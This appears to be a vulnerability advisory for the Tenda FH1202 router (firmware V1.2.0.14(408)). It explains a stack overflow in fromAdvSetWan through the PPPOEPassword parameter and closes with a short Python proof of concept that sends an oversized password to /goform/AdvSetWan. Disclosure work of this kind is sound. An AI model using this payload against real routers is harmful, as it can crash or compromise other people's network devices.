


# Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.


### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```
